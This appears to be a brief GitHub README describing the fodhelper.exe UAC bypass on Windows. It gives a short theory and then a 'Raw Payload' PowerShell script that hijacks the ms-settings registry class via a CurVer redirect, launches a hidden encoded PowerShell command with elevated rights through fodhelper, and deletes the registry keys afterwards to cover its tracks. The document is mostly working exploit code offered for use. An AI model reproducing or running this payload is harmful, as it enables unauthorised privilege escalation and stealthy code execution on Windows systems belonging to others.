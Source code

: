 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; however, it reads certain registry keys to determine its behavior

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

<p></p>

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
